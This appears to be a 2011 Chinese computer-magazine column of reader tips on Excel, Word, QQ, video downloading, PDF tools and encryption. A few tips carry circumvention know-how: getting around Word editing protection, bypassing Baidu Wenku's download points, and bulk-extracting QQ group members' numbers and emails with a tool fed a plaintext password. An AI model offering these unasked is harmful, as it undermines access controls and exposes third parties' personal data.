方法一：在要生成一位随机密码的单元格中输入公式“=DEC2HEX(RANDBETWEEN(HEX2DEC(“0”),HEX2DEC(“F”)))”。公式中调用了16进制和10进制的转换函数，使用这些函数时记得要单击“工具→加载宏”，选择“分析工具库”。16进制数的数字除了0~9外，还包括A~F。只要随机产生1位的16进制数，很自然就可以随机取0~9的数字和A~F的字母。如果要生成6位随机密码，只要把公式改成“=DEC2HEX(RANDBETWEEN(HEX2DEC(“100000”),HEX2DEC(“FFFFFF”)))”即可。本方法也有缺点，就是字母只能随机取A~F，不能取G~Z。

方法二：在要生成一位随机密码的单元格中输入公式“=CHAR(CHOOSE(RANDBETWEEN(1,2),RANDBETWEEN(48,57),RANDBETWEEN(65,90)))”。公式中的48和57是数字0和9的ASCII码，65和90是字母A和Z的ASCII码。用函数RANDBETWEEN分别随机产生0~9的数字和A~Z的字母的ASCII码，再用函数RANDBETWEEN随机产生1或2，是1则用函数CHOOSE取数字的ASCII码，是2则取字母的ASCII码，最后再用函数CHAR把ASCII码转换为字符。

方法二克服了方法一的缺点，随机产生的密码如果是字母的话，可以是A~Z。 (文/梁里宁)

| A | B | C | D |
|---|---|---|---|
| 账号 | 1位密码 | 8位密码 | 1位密码 |
| 1 | 1se001 | T | 108239 | S |
| 2 | 1se002 | S | B0B007 | T |
| 3 | 1se003 | D | 4f3357 | R |
| 4 | 1se004 | S | 36cFF5 | W |
| 5 | 1se005 | A | E08473 | W |

# 解除限制 视频下载有方

读了CFan2011年第10期《视频地址探不到 百度工具栏露一手》，文中介绍通过使用百度工具栏来下载奇艺网视频，但是为了下载奇艺网的视频而单独去安装一个搜索工具栏，个人认为完全没有必要。首先过多地安装工具栏会影响IE浏览器的启动和运行速度，其次对于工具栏是否为流氓软件还存在争议。所以我为大家推荐一些下载视频的方法，让下载视频不再有限制。

集大成的ldown
ldown软件支持下载软件专用、网盘、视频网站等链接，可以很好地解决在下载网盘文件时没有专门下载软件的问题。其支持下载的网站列表：http://blog.stsword.cn/index.php/archives/193

下载ldown绿色版 (http://blog.stsword.cn/) 并解压，打开视频网站，以下载奇艺网的三国演义视频为例，打开三国演义视频播放网址，在浏览器的地址栏中把视频网址复制下来。

运行ldown，单击界面上方的“设置”按钮，在弹出的下载设置对话框中粘贴刚才复制的视频链接，然后设置视频文件的存储路径。由于视频文件被分割成多个，建议单独新建一个文件夹保存，并勾选“自动命名”，方便下载完成后的视频合并。

# 第三方浏览器

遨游浏览器3具有的视频嗅探功能，无需安装插件同样可以下载视频。

启动遨游浏览器3，打开视频播放网址，单击界面上方的资源嗅探器按钮，然后单击资源嗅探器窗口中的视频图标，此时可以看到视频文件的真实地址，并显示文件大小，选中所有视频文件，单击“下载选中的文件”，它就会调用遨游浏览器的下载组件进行视频文件下载。

# 在线网站解析

如果你不想安装软件，也没有用第三方浏览器或者其视频嗅探功能无法嗅探到下载地址，建议用File2HD网站提供的文件解析功能。在浏览器地址栏中输入http://file2hd.com/打开File2HD网站，打开需要下载视频的播放页面并复制其网址，将网址粘贴到File2HD网站的URL栏，勾选“I have read and agree to the Terms of Service”（我已阅读并同意服务条款），在Filter（过滤器）中选择“Movies”，最后单击“Get Files”，等待一会便可以看到网站解析后的真实下载地址，直接调用下载软件下载即可。 (文/xmsword)

# 上传音乐要会员 随身盘帮你忙

2011年8期的一篇文章《免费为QQ空间添加背景音乐》，让我知道了空间还有可以不用花钱使用背景音乐的方法，但是，有些在百度搜索到的歌曲链接有时会失效，上传歌曲永久保存又要会员资格，要是想一直保留音乐，那不是又要花钱吗？不过，我找到了一个不花钱的方法，那就是用QQ邮箱的随身盘来上传。

1. 首先进入QQ邮箱开通随身盘功能。在邮箱顶部找到“设置”选项，然后点“体验室”，开通随身盘。

2. 开始上传文件。进入随身盘点击“上传文件”，注意上传文件大小不得超过10MB哦，不过，一般的歌曲都不超过10MB的，以chocolat为例，上传完成后，就可开始获取歌曲链接了！

3. 获取歌曲链接。最好使用一些点下载就会弹出下载链接的软件，例如360浏览器、迅雷等，以360浏览器为例，进入随身盘页面，找到刚刚上传的那首歌曲，点“下载”按钮，弹出下载框，将吊带袜天使.mp3后面的一大堆乱码删除，然后再复制链接。

4. 打开QQ空间开始上传音乐。点击“正版音乐库”，找到“添加网络音乐”点击进入，输入刚才复制的链接地址，以及歌曲名和歌手名。提示收藏成功后进入“我的收藏”，点那个绿色的按钮，再进入QQ首页，一个永久的音乐链接就这样完成了。

后记：QQ空间会提示连接率为30%，但是我的好友每次一进来都会听到音乐的，虽然只能用五首，且随身盘的容量只有128MB，但对于音乐已经足够了吧，希望大家使用愉快。 (文/空音风华)

# 搜索大文件可以更方便

看过2011年第14期的《试试自定义“大块头”搜索有秘技》后，我认为不必那么麻烦。原文是在Windows 7中按照大小搜索大文件，需要保存并修改结果文件，还要用硬盘容量卷标。其实只需要在搜索栏中输入如下格式：

大小：>1024mb <5000mb

就可以搜索出你指定范围的文件（这里是1024MB到5000MB之间）。

大小：***mb

则可以搜索指定大小的文件。

另外，“修改时间”和“类型”筛选器也可以这样用，Windows 7在这些方面的改进很实用。

（文/周志浩）

# 外出打印招贴更有勤快帮手

2011年第10期的“文件巧处理 找个‘帮手’来打印”一文，介绍了通过下载不同打印驱动将招贴打印到.prn文件中，过程有些繁琐，因为需要弄清楚打印机型号，还需要下载驱动。

其实20世纪80年代的出版业也遇到过同样的问题，所以以微软为核心的企业开发了TIFF格式文件，使得打印可以独立于电脑。到了2009年Adobe公司又推出了色彩还原度更高、文件体积更小的PDF文件格式。

目前主流的发行杂志社都是支持PDF文件的。所以我们可以先利用类似TinyPDF（下载地址：http://www.xdowns.com/soft/6/56/2010/Soft_65081.html）这样的PDF生成软件将招贴“打包”成100%还原色彩的PDF文件，这样到哪儿都可以支持。

软件安装完成后，在图像编辑软件中点击“菜单栏→文件→打印”，在打印机“属性”处选择“TinyPDF”（其实这个软件是将自身作为一个虚拟打印机），设置文件保存的地方后，只需要倒杯茶的功夫即可收获“劳动果实”（结束后软件会打开转换好的文件作为预览）。

（文/叶勇）

# 图片无损放大我要免费的

2011年17期的《有图有真相，放大不再伤不起》一文中，介绍了使用PhotozoomPro这个小软件来完成图片的无损放大，效果不错，但该软件是共享的，有时间限制。这里推荐一个绿色免费的图片无损放大软件SmillaEnlarger（下载地址：http://www.xiazaiba.com/html/4453.html）。

Step1：运行后选中Cropping选项卡，单击Open后选中需要放大的文件，如需批量放大，则只需选中文件夹即可，打开后裁剪图像中需要放大的部分，当然可以是全图。

Step2：在Output Dimensions中选择输入图片的大小，即放大的方式，如指定放大比例、放大到特定宽度、高度、伸缩到合适尺寸等，一般选择Specify zoom factor按比例放大即可。在Enlarge Parameter中可以选择放大的模式，包括默认、锐化、描绘、锐化并去噪等。单击Preview可以对放大后的效果进行预览。

Step3：如果觉得满意，则可以在Write Result to中输入放大后的文件名，如果不想将其保存在原文件夹，还可以取消Use Source Folder，单击Change Folder后改变文件存放位置，然后单击Enlarge & Save保存即可。

（文/我心依旧）

# 插入文档除了合并还能破解

2011年第8期《多人合作写文章 一键合并好轻松》一文，介绍的是“插入→文件中的文字”功能最基础的应用方法。其实，除了干干本分的工作外，它还能够破解被作者保护的Word文档呢。

相信在工作中你遇到过这样的情况：打开一篇Word文档，却发现只能够浏览而不能够对其进行编辑（比如选择、复制等操作）。如果你想使用该文档的内容，该怎么办呢？好办，就是按原文所述，将该文档插入到一篇新文档中，然后你就可对其进行编辑了。

（文/贾培武）

# 用合并MP3文件功能更快捷

2011年10期《妙用好压 散碎音频串起来》一文中，合并多个音频的操作有些麻烦，用好压“工具”菜单下提供的“合并mp3文件”功能，就可以方便地完成，操作步骤更少、更简单方便。

打开好压主界面，选择“工具”菜单下的“合并mp3文件”选项打开“好压合并mp3文件工具”界面。点击“浏览”设置保存位置和文件名称，再点击“添加”按钮，按合并的先后顺序选择MP3音乐文件添加到文件列表中。

各参数设定好后点击“确定”按钮，弹出“正在创建压缩文件”窗口，MP3合并速度非常快，瞬间完成。在设置的目录下查看合并的MP3格式文件，双击调用播放器欣赏即可。

（文/王彦博）

# Chrome的同步和书签转换

在2011年第12期《巧改Google Chrome用户数据和缓存路径》一文中，介绍了通过修改缓存文件位置来达到保存数据的目的。其实根本没有必要这么麻烦，Google Chrome里就自带了这项功能，而且原文的方法只适用于自己的电脑，而这个方法在任何电脑上都适用。

## Chrome同步如此简单

打开Google Chrome浏览器的“选项”，切换到“个人资料”标签，点击上方的“设置同步”按钮，在弹出的窗口中输入自己的Google账号和密码进行登录。之后点击“自定义”，选择需要同步的数据类型，最后单击“确定”。

这样即使我们重装系统，只要再次进行同步，就可以恢复之前保存的数据，再也不必担心Chrome保存的密码、书签等信息丢失了。

## Chrome的书签转换

《巧改Google Chrome用户数据和缓存》介绍得很专业，但对于一般人来说还是有些麻烦。其实除了利用Chrome的同步功能就能很容易地同步书签、密码等内容之外，还可以借助软件Transmute（下载地址http://www.gettransmute.com/download/），把Chrome书签转换为我们熟悉的IE的快捷方式。

打开后在语言中选择中文，不仅Chrome，基本上所有国外主流浏览器都有，可以从一个浏览器导入到另一个，也可以在目标项目里自选一个文件夹，得出就是快捷方式了。

（文/前尘忆梦 Heartbreak kid）

# 百度文库下载 抱米花下载更简单

在拜读过2011年第11期《积分不够也能下载百度文库》这篇文章后，深有同感。有时在下载资料时，由于积分不够总是提示“您当前的财富值为0，不足以支付下载此文档哦”，感觉非常郁闷，直到找到了“抱米花百度文库下载器”。 与原文使用的“文库宝”相比，虽说两款软件都是通过绕开百度文库的积分限制达到文件下载目的，但“文库宝”在使用时需要先在搜索框中输入要下载的文件名称进行搜索，搜索到该文件后才能点击“下载”，下载完成后还要进行解压才能查看文件。而“抱米花百度文库下载器”使用过程就简单多了 (http://blog.sina.com.cn/s/blog_555efb020100jno7.html)。 软件下载完成后打开压缩包，双击其中的可执行文件即可打开软件，然后将百度文库的文件地址复制并粘贴到软件的“百度文库地址”框中，点击“下载”按钮，在打开的“浏览文件夹”对话框中选择文件的保存位置，点击“确定”即可自动下载了。下载完成后，打开文件夹就可以直接打开查看下载的文件了。 如果是批量下载，可以在“百度文库地址”框中粘贴百度文库的文件地址后，先按下回车键换行，然后再依次粘贴其它文件的下载地址即可。(文/刘长德)

# 同一Word文档纵横页面并存另有简法

2011年第11期《同一Word文档纵横页面并存》介绍了通过手工插入分节符的方法来实现页面纵横混排。其实，对于一篇已有的Word文档，如果其中的某页内容需要放置在横向的页面上，最为简单的实现方法如下：

1. 选择要更改为横向的内容。
2. 在“文件”菜单中，单击“页面设置”命令。
3. 单击“页边距”选项卡，然后在“方向”下，单击“横向”，并在“应用于”框中，单击“所选文字”。
4. 单击“确定”按钮。

此时，Word会自动在选择的内容前后插入分节符，以使该页应用于横向方式，而不会影响文档中其他部分的页面设置。原文是以Word 2003为例，所以上述操作仍是以Word 2003为例加以说明。如果你用的是Word 2007或Word 2010，则打开“页面设置”对话框的方法是：在“页面布局”选项卡，单击“页面设置”组的对话框启动器。(文/贾培武)

# QQ群成员提取 既要免费也要简单

在2011年11期的“绝对挑战”栏目中介绍了几种提取QQ群成员的方法，方法很多，但是都有一些局限性，需要付费或提取过程过于繁琐。其实完全不用那么麻烦，绿色免费软件“秋雨QQ群成员提取器”就可以轻松快捷地搞定 (下载地址: http://www.07115.cn/archives/25)。 在运行软件前，需要先新建一个文本文档，在里面输入自己的QQ账号和密码然后保存。打开软件，点击左上角的“登陆”按钮，选择“批量导入”，找到刚才保存的txt文档，它会自动在右上侧显示你的QQ号码。 如果你不是在常用IP登录的话会让你输入验证码，待识别出QQ号码后，选择你要提取号码的QQ群，它就会在左侧显示出群成员的QQ号和群名片，而且显示的是修改后的群名片，非常方便我们确认。 待右侧“完成进度”后面出现“已经查找完成”的提示后，说明全部成员已在右侧显示。 在提取形式上有三种选择：只导出QQ号码、导出群名片和QQ号码、导出邮箱格式，大家可以根据自己的需求来选择，选择好提取形式后点击上面的“导出成员”按钮，可以选择导出格式为“TXT文本导出”或“Excel导出”，几乎是瞬间，就可以在软件所在文件夹里找到导出后的TXT文本或Excel图表了。 测试结果: 为了测试软件提取效果，我特意选了一个成员比较多的群，经验证，提取效果非常完美，可以直接保存留作备份。 如果在使用过程中有什么问题的话可以访问作者的博客，查看软件的使用教程。(文/飞天小猪)

# 不必注册 QQ文件自动接收

2011年第7期的《高效工作 让重复操作自动化》这篇文章里的“自动接收QQ文件”，介绍了QQ文件接收秘书是如何替我们接收文件的。我下载回来试用了一下，感觉功能虽好，但是需要注册，而网上又找不到注册机或注册码，那么到期后怎么使用呢？ 于是我在网上找到了一个新的软件，叫做“QQ文件自动接收管家”(下载地址: http://www.xdowns.com/soft/40/62/2011/Soft_74386.html)，这个软件也可以接收QQ号传送的文件，而且可以自动升级。不过因为是免费软件，作者并不提供技术支持，但有什么好的建议还是可以告诉作者的。离开时，只要开着这个软件，不论哪个QQ接收文件，它都会替我们接收，还可以自动回复消息呢。我用过了，它可以支持QQ最新版本。(文/李振)

# 跟垃圾邮件说再见 我用60分钟邮箱

看了2011年10期刊登的《善用10分钟邮箱 跟垃圾邮件说再见》一文，联想到我平时使用的60分钟临时邮箱，自认为也值得向大家推荐。10分钟的临时邮箱可能在处理邮件时会让人有点紧张，60分钟的临时邮箱就能让人从容应对了。 打开http://www.fakeinbox.com/网页，单击Create random email address，在Your current e-mail address is下就可以得到一个属于自己的临时邮箱了。生成的邮箱有效期为60分钟，在这期间千万不要关闭这个网页，否则你得重新申请邮箱。 页面中可以看到倒计时器在显示邮箱有效期剩余时间，如果你想延长有效期，单击下面的按钮则又可得到60分钟的延长时间。 使用该临时邮箱在网站或论坛注册，收到的确认信件在哪里显示呢？刷新fakeinbox网页，将显示You've got mail!的来信提示，单击Show即可打开信件阅读。(文/吴忠仪)

# 保护文档安全 可以自动加密

2011年13期《保护文档安全 Word文档快速加密》一文，是通过录制并运行一个给文档加上密码的宏的方式给文档加上统一密码。其实，要给自己建立的文档和别人发来的文档都加上统一密码，可以由Word自动完成，而无需任何人工干预。原文以Word 2003为例，故以下所述操作也以Word 2003为例。

## 一、录制自动加密宏

1. 启动Word，单击“工具→宏→录制新宏”，在弹出的“录制宏”对话框中，输入宏名AutoClose，选择“所有文档 (Normal.dot)”，输入对宏的说明并确定。如果AutoClose宏已存在，它将询问“是否替换已有的宏”，如果不想以新宏替换已有宏，请单击“否”并进行下述编辑宏的操作。
2. 单击“工具→选项→安全性”，输入密码(比如123456)并再次确认密码后确定，然后单击“工具→宏→停止录制”，关闭Word。之后，不论是你新建Word文档还是编辑别人发来的Word文档，在关闭Word时，它都会给该文档自动加上统一密码。

小提示: 在Word中要重复进行某项操作，可以通过宏实现任务执行的自动化，有一类很实用的自动宏，会在特定事件发生时自动运行：

| 宏名 | 运行条件 |
|------|----------|
| AutoExec | 启动Word或加载全局模板时 |
| AutoNew | 每次新建文档时 |
| AutoOpen | 每次打开已有文档时 |
| AutoClose | 每次关闭文档时 |
| AutoExit | 退出Word或卸载全局模板时 |

## 二、编辑 AutoClose 宏

如果AutoClose已经存在于Normal.dot模板中，而且不想以新录制的宏替换该宏时，你可以对AutoClose宏进行编辑，给文档加上打开权限的密码指令即可。
1. 单击“工具→宏→宏”打开宏对话框，在“宏名”下选择AutoClose，单击“编辑”。如果没有发现AutoClose 宏，请在“宏的位置”下选择“Normal.dot (共用模板)”。
2. 在打开窗口的代码窗格中，于AutoClose宏代码段内输入代码 Password="123456"，单击“文件→保存Normal→关闭并返回到Microsoft Word”后返回编辑窗口。

实际上，Word提供的自动宏作用大着呢，以上旨在抛砖引玉，你完全可以利用自动宏为自己定制其他服务。(文/王杰)

## 不用火狐 看视频也可去广告

2011年第2期的《欣赏网络影视 拒绝广告骚扰》介绍了使用火狐浏览器的自带功能来实现看视频去广告的效果。其实，不用火狐，看视频也可去广告。

优酷、奇艺的视频都有分屏功能，只要把光标移至视频右侧就会有一个弹出菜单，选择“分屏”即可（奇艺叫做“小窗口”）。

至于酷六和土豆，虽然没有明显的分屏按钮，但只要单击全屏（在视频右下角），再在视频中点击减号就完成了。

这个方法不限浏览器，只是对视频网站有些要求，不过大多数视频网站都有这两种功能，已知没有此功能的网站有腾讯视频，56只能将视频变为宽屏模式（单击右下角全屏左边的按钮），激动网和新浪视频都有此功能（新浪需全屏后单击右上角的1X或2X按钮，激动网同酷六一样，单击右上角V的减号就可以了）。

（文/杨董重）

## 普通手机也可拥有强大的防盗功能

从2011年第11期的文章《丢了也不怕—远程控制失窃手机》了解到诺基亚E7强大的防盗功能。怎奈E7是一款价格昂贵的高端手机，而自己只拥有一部诺基亚普通智能手机。能否通过第三方软件实现这些防盗功能？仅安装一款安全管家（下载地址：http://www.angguanjia.com/），便拥有强大的防盗功能，并且毫不逊色于E7。

下载安装后，依次进入“高级工具→防盗卫士”，便可以进行相关设置以保护自己的手机安全了。

首先进入“防盗设置”，即可开启防盗卫士并设置密码，在“安全手机号码”的框里填入另外一个手机号码，并在“换SIM卡后发送短信内容”里编辑好短信内容，当手机换了号码时，新的号码会自动给这个指定的号码发送短信。即使被盗用，我们也可以依此找到使用者。接着把“卸载保护”设置为“开”，可以防止别人卸载“安全管家”导致防盗功能失效。

如果手机不慎丢失，担心个人隐私被曝光，可以在另外一部智能手机里安装“安全管家”，进入“远程数据删除”界面，输入丢失手机的当前号码以及防盗卫士密码，按下“确认”键，就可以清除遗失手机的所有数据（无法恢复）。在“远程锁机”和“远程定位”选项里，可以锁定丢失的手机和查看丢失手机所在的经纬度。

这样，经过层层保护，就可以确保手机安全了。安全管家支持的系统：S60三版/五版，Symbian3版，Android版。

（文/李广成）

## 别让他看别人的成绩另有简易法

### 一、用函数表达式给查询表增加查询功能

看了《电脑爱好者》2011年第14期的“别人的成绩你别看”介绍的通过输入学生的姓名只看该学生的成绩，很受启发。但是原文的做法似乎有点复杂了，以下做法可以更简单。

在Excel中根据考试情况建立学生成绩汇总表是最基本的一步，原文是通过加和函数sum及排序函数rank建立基本的成绩汇总表。假设以上是在工作表Sheet1建立的，那么我们就到另一张工作表中建立表格，把前表的表头粘贴过来，表头和最左栏改了一下，加上“查询窗口”字样，与这张表的功能相适应。

在“语文”下面那个空格里输入公式：
`=IF(COUNTIF(Sheet1!$B$3:$B$12,B3)=1,VLOOKUP(B3,Sheet1!$B$3:$L$12,2,FALSE),"")`
意思就是：如果你在左边姓名下B3格输入的名字，跟Sheet1表格里姓名项（即Sheet1!$B$3:$B$12）里名字一样，那么就告诉你B3里那个姓名对应的语文成绩是多少。

他的语文成绩就是工作表Sheet1里$B$3:$L$12内与B3相同的那个名字后面第2列相应行的数字，数学成绩就是第3列相应行的数字……最后的排名就是第11列相应行的数字。

如果不输入姓名，或者输入的姓名不在列表的名字里，那么就不告诉你，所以就用引号加个空格，避免出现FALSE的字样。

最后，还是做个查询的下拉列表吧，要不还得输入姓名太麻烦了。选中B3，点“数据有效性”，在“设置”里，选“序列”，来源处输入=sheet1!b3:b12，确定就可以了。如果需要绝对引用，那就选中sheet1!b3:b12后用F4转换一下。

如果有同名同姓的人，最好在制作成绩表的时候就把他们区别一下，比如加上个学号，那么可以在查询窗口里把学号也表示出来，就好区分了。

### 二、用WPS表格也能实现

《别人的成绩你别看》一文介绍的方法步骤较繁琐，若对Excel不熟悉，有可能无法完成。其实，要完成这一功能，借助VLOOKUP函数即可实现，并不受版本的限制。下面以WPS表格2010为例，介绍我的做法。

- 第一步：打开WPS表格2010，在Sheet2工作表中录入数据并统计总分和排名。
- 第二步：在Sheet1工作表中录入相关数据，选中A4单元格，输入公式`=VLOOKUP(E1,Sheet2!A1:F1,1,FALSE)`，复制该公式到B4、C4、D4、E4、F4单元格中并修改公式中第3个参数（B4单元格中为2，C4单元格中为3……）。
- 第三步：切换到Sheet2工作表中，执行“格式→工作表→隐藏”，隐藏源数据。至此，工作表的设置基本完成，保存文件。

当接受学生查询时，在E1单元格中输入学生姓名，该生的成绩就显示在下面相应的单元格中。

（文/郭向光 周显胜）

## 分门别类找文件 陈旧无用快清理

每天和各种各样的文件打交道，时间一长硬盘中就会积累很多文件，分布在不同的文件夹中，不及时清理可能会大大影响系统运行的速度。2011年第3期《找出文件大胖子，谁偷占了C盘空间？》一文介绍了一种使用SpaceSniffer软件查找大文件的方法，虽然能够直观地查找大文件，但对一些不太常用的、中等大小的文件或文件夹，查找删除就不太方便了。其实，借助一款名为TreeSize（下载地址：http://www.duote.com/soft/5280.html）的磁盘空间管理软件，不但可以直观查找删除大文件，还可以快速查找所有分区中重复的文件、旧的文件等，提高文件管理的效率。

安装运行该软件，在上方的地址栏中选择要分类显示文件的分区，选择“图表”标签，可以实现类似SpaceSniffer软件直观查找大文件的功能，选择“扩展名”标签，系统很快就会分门别类地显示各种类型的文件汇总信息，包括文件大小、已分配空间等信息。如果要查找同一分区中所有的RAR压缩文件，可以单击“打包文件”前面的“+”号，展开所有压缩文件类型，右击第一种类型，执行“显示指定扩展名的所有文件”命令，就可以显示所有WinRAR压缩文件。

执行“工具→TreeSize文件搜索”命令打开“文件搜索”对话框，单击“扫描选项”标签，设置要搜索的硬盘分区，勾选“重复的文件”项，单击“开始搜索”按钮，很快它就可以搜索出选定分区中重复的文件，单击Size将文件从大到小进行排序，以方便我们进行文件的删除。

此外，我们还可以快速查找删除各种大的、旧的、临时的文件，提高文件清理的效率。

（文/姚文连）

## 绕道PDF 打印小册子更轻松

2011年第6期的《出版小册子 你自己也能》介绍了用WPS打印小册子的方法，看后觉得操作复杂，太不实用。后来有读者提出用打印机自带功能的制作方法，虽然简单，但受限制。其实我们不妨绕道而行，先用DoPDF之类的工具把文档转换成PDF格式，再用Gimposition这款软件直接改变成适合装订的小册子形式。这种方法虽需绕行，操作却极其简单。

Gimposition（下载地址：http://www.noliturbare.com/pdf-tools/simple-imposition）需要.NET 2.0支持。把要装订的文档转换成PDF格式后，样式为竖版，页码按顺序排列，每页只有一版的内容。首先打开界面，把PDF文档拖入界面，在Selected PDF Properties栏中会出现文档页面的原始大小、文档的总页码等信息，接着在Impose For栏勾选Booklet printing选项，这就是从中间装订的小册子形式。最后单击Action按钮，在弹出的对话框中选择文件的保存路径并指定名称，单击“保存”按钮即可完成改造。

此时打开新建的PDF文档观看，已经变成横向排版的一页双版形式，页码也已经打乱。打印文档时，先打印第一页，再在第一页的背后打印第二页，以此类推直到打印完所有页，之后按顺序排好，中间装订，对折完成。

另外该软件还可以把一页一版的PDF文档转换成奇偶页并排（2-up printing）以及一张纸中打印两份同样的内容（Duplicate side-by-side）等形式。

## 照片快速重命名

读了2011年15期的《照片名称与拍摄时间齐步走》后，感到可以有更好的方法。原文使用的是ACDSee的一个小功能，但是如果仅仅为了这一个功能而装上ACDSee就太不值了。微软已经为我们准备好了好解决方案。

打开存放照片的文件夹，切换到“详细信息”视图，在表头上右击，选择“其他”，在打开的窗口中找到“相片拍照日期”并勾选，按“确定”，再点击表头的“相片拍照日期”进行排列，如果排列是倒序的，则还应点击一下。然后，按Ctrl+A全选，再按“F2”键重命名，在输入框中输入新文件名的前半部分加上(1)（英文半角括号，比如DSC(1)），按回车确认，稍后，照片就会按照XX(1)、XX(2)、XX(3)……的顺序编号，很方便。

不过这种方法不提供设置选项，自定义空间很小。而用Office 2003（或更高版本）的Picture Manager也可以批量重命名。运行后，在左侧的窗格中点击“添加图片快捷方式”链接，定位到存放图片的文件夹，选择“添加”，在窗格中选择刚才添加的项目，其中的图片就显示在中间了。选择“视图→排序依据→日期”，然后在右侧窗格选择“重命名”，设置好各项后在下方的预览区可以看到最终效果，点击“确定”就可以批量重命名了。

## 提取PPT文字更易分享

读了14期的《课上PPT课下看 山寨手机也玩转》后，发现文中所用方法有一些可补充之处。把文字提取出来，文中用了一款小软件，不过还是不下软件为好，运用PPT的大纲视图，也可以把文字提取出来。

打开一个PPT文档，点击左边栏的“大纲”选项卡，就可以切换到大纲视图。此视图中已经把每张幻灯片的标题和要点列出来了，这些要点中还保留了各级项目符号，看起来十分方便。

但是，大纲视图并不显示表格、图表和文本框中的文字，这对于一些文字型PPT很不方便。我们可以借助PDF打印机提取文字。首先打开打印界面，选择PDF打印机，设置好打印范围，也可以点击“打印机设置”，把质量设置得低一点，点击“打印”，再选择保存位置，打开输出的文件，按Ctrl+A全选，再粘贴到记事本中，整理一下就可以了。

对于转换图片，直接把幻灯片复制到Word中即可。Word会自动把它转换为图片，保存为网页文件就可以提取出图片了。在保存为视频时，若在录制时还要人工切换幻灯片，不仅时间控制不准确，而且很麻烦。

可在PPT中进行幻灯片切换效果设置，选择好效果，找到“换片方式”，勾选“设置自动换片时间”，输入一个时间，选择“全部应用”。这样，启动幻灯片放映时，幻灯片就会按照你设置的时间一张一张地播放，不用人工切换了。

## 密钥因人而异 泄密有据可查

2011年第13期《巧用“连环锁”打造绝密天书》一文，介绍了一种比较独特的“密钥”加解密方式。但这种方法只能一对一操作，倘若要把加密信息给多人观看，相同的密钥会使密钥持有者有后顾之忧，因为泄露后无从查起。再说共享版软件用起来也不爽快，我以前用过一款名为gpg4usb的免费软件，虽然加密没有那么强悍，但能为每个人制作不同的密钥。一旦泄密，就能利用每个人独一无二的密钥顺藤摸瓜，找出泄密者，从而让别有用心的人心存顾虑，不敢乱为。

### 一、导入、导出密钥

- 制作。gpg4usb（下载地址：http://www.onlinedown.net/softdown/105622_2.htm）是一款绿色软件，建议大家存放在U盘中使用。比如你想让A和B接收加密文件，就得先为他们制作密钥。单击程序界面，单击Key Management按钮进入Keymanagement界面，在菜单栏单击Key→Generate Key，打开Generate Key对话框，输入密钥拥有者A的姓名、电子邮箱地址、密钥有效期等信息，如果输入密码，会使解密过程多一步输入密码的操作。设置完毕后单击OK，即会把生成的密钥显示在Keymanagement界面。随后重复以上步骤创建B的密钥。
- 导出。全部密钥创建完后，在Keymanage ment界面选中一个密钥右击鼠标，选择Show Keydetails命令，在弹出的对话框中单击Export Private Key按钮，再单击OK，选择位置并命名密钥后，把该密钥文件导出保存，以同样操作导出其它密钥，然后分发给A和B。
- 导入。A和B接到密钥，需要把密钥导入到自己的软件中才能使用。打开程序界面，单击Import Key按钮，在打开的对话框勾选File选项，单击OK按钮，在打开的Open Key对话框选择密钥文件打开，便完成导入过程，导入后的密钥出现在界面右侧。

### 二、加密、解密文件

- 加密。gpg4usb既能加密文本又能加密文件。给A制作加密文本时，先在界面右侧勾选A的密钥，再把文本输入到文本框中，单击Encrypt按钮完成。随后单击Select All按钮选中文本，再单击Copy按钮复制文本，粘贴到记事本文档，并把文档传送给A即可。该信息只有A的密钥可以解密，B即使得到文本，也无法用自己的密钥解密。
如果要把加密的文件给A，则直接在主界面单击File Encryption按钮，打开Encrypt/Decrypt File对话框，勾选Encrypt选项和A的密钥，然后单击对话框上方的“…”按钮，选择要加密的文件打开，再单击下方的“…”按钮，选择文件的导出路径，最后单击OK按钮完成文件的加密。
假如加密的文本或文件允许A和B两人查看，只需在选择密钥时，同时勾选A、B两个密钥，再进行加密就可以了。
- 解密。解密文本信息时，先把加密信息粘贴到文本框，再勾选密钥，单击Decrypt按钮，单击OK按钮，信息便会显示出来，如果在密钥中设置了密码，还需要输入密码。解密文件时，需要单击File Encryption按钮，打开Encrypt/Decrypt File对话框，勾选Decrypt选项，分别设置好加密文件的输入路径和导出路径，单击OK按钮即可完成。

## 用QQ影音截取音视频更方便

看了2011年第15期中的《讲座提取音声 广播录制视频》，对于截取视频中的音频，其实我们没有必要使用Super Video to Audio Converter，因为这个软件需要注册，未注册版本只能转换50%，太受限制了。

QQ影音就可以完成我们的要求。点击右下角的“影音工具箱”，选择“截取”选项，通过拖动滑杆选择截取哪部分，并通过微调按钮精确选择想要截取的部分，然后保存即可。在弹出的“视频/音频保存”菜单，可以选择仅保存音频、无损保存视频或保存视频，最后选择文件名和保存位置就可以了。别看它小，速度可不慢哦！

## 还魂妙药 一付足够

2011年第16期《崩溃，重启不怕，自有还魂妙药》一文，介绍了在遇到程序崩溃、系统重启时，如何用两付妙药快速恢复进程的方法。这实际上只不过是一个守护进程的问题，一个进程守护工具便可以解决。在此类工具中，笔者最推崇的是Process Lasso这款软件（下载地址：http://www.piaodown.com/soft/36090.htm）。

运行后，在界面“运行中的进程”一栏中，可以看到所有的进程。无论是担心崩溃的程序还是系统重启后想要启动的软件，只需先运行软件，然后在进程列表中找到进程名称右击鼠标，选择“保持这个进程持续运行”选项，在弹出的对话框中单击OK按钮，该程序的规则中便出现K字（后面的数字是允许运行的实例数），表示程序已被保护起来。

以后当受保护的软件崩溃、进程在列表中消失时，它便会立即启动。而当重启系统时，它也会随系统自动启动，受保护的软件也会重新出现在桌面上。根本无需使用其它工具分别进行保护，想取消某个进程保护的话，也只要右击进程名称，去掉对“保持这个进程持续运行”选项的勾选即可。

Process Lasso是一个很值得琢磨的软件，对进程的控制能力无与伦比。研究透这个软件，就能随意设置进程的优先级、实例数、节流等级等，以此提升系统的反应速度（让绿线保持在最顶端）。此外，还可以限制某些不需要的进程出现。

## 也说Word表格中的数值运算

暑假无事之际，把今年的《电脑爱好者》又看了一遍，看到2011年第2期《Word表格也玩数值运算》，其中介绍的方法简单实用。不过我认为Word表格的数值运算能力并不止作者所说的那点。

- 第一，想对表格数值进行计算的人当然对Excel有所了解，那么，在Word的表格中进行数值运算的最好方法是在Word文档中插入Excel表格（单击菜单栏的“插入→表格→Excel电子表格”），处理该表格就像在Excel中处理数据一样（在插入的Excel表上双击就可以处理表格数据，在表格之外的任意地方单击即可编辑文档），很方便。
- 第二，对Word中表格的数据进行比较简单的运算，也可像Excel表格一样处理。只不过Word表格中的行列标不像电子表格那样在上方和左方标注了，而是要放在我们的心里。

例如，输入张三的成绩，我们将对张三的成绩进行分析：总分、平均分、最高分、最低分。

